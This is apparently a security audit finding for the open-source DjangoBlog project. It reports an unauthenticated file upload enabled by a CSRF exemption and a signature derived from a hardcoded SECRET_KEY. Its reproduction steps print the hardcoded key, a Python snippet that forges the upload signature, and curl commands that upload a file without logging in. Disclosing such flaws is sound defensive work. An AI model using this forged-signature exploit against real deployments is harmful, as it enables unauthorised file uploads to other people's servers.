

# Vuln-11: Weak File Upload Authentication + CSRF Exemption

**Project:** DjangoBlog (https://github.com/liangliangyy/DjangoBlog)
**Version:** Latest master (commit `06f76ea`)
**Date:** 2026-03-14
**Severity:** MEDIUM
**OWASP:** A01:2021 - Broken Access Control
**CWE:** CWE-306 - Missing Authentication for Critical Function

---

## Affected File

```
blog/views.py (lines 354-391)
```

## Root Cause

The file upload endpoint is decorated with `@csrf_exempt` and authenticates only via a static HMAC signature derived from `SECRET_KEY`. Since the `SECRET_KEY` has a hardcoded fallback (Vuln-3), the upload signature is computable by anyone.

## Steps to Reproduce

```bash
# 1. Compute upload signature from hardcoded SECRET_KEY
SIGN=$(python3 -c "
import hmac, hashlib
SK = 'n9ceqv38)#&mwuat@(mjb_p%em\$e8\$qyr#fw9ot!=ba6lijx-6'
def s(v):
    return hmac.new(SK.encode(), str(v).encode(), hashlib.sha256).hexdigest()
print(s(s(SK)))
")

# 2. Upload a file without login
curl -X POST "http://127.0.0.1:18000/upload?sign=${SIGN}" \
  -F "test.txt=@/etc/hostname"
# Returns: 200 with uploaded file path

# 3. Verify invalid signature is rejected
curl -s -o /dev/null -w "%{http_code}" -X POST "http://127.0.0.1:18000/upload?sign=invalid" \
  -F "test.txt=@/etc/hostname"
# Returns: 403
```


## Impact

Unauthenticated arbitrary file upload to the server. Combined with Vuln-3, this is fully exploitable without any credentials.

## Recommended Fix

Replace the static HMAC signature with proper session-based authentication. Re-enable CSRF protection.

---

## References

- [OWASP Top 10 (2021)](https://owasp.org/Top10/)
- [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
- [Django Security Best Practices](https://docs.djangoproject.com/en/stable/topics/security/)
- DjangoBlog source: https://github.com/liangliangyy/DjangoBlog
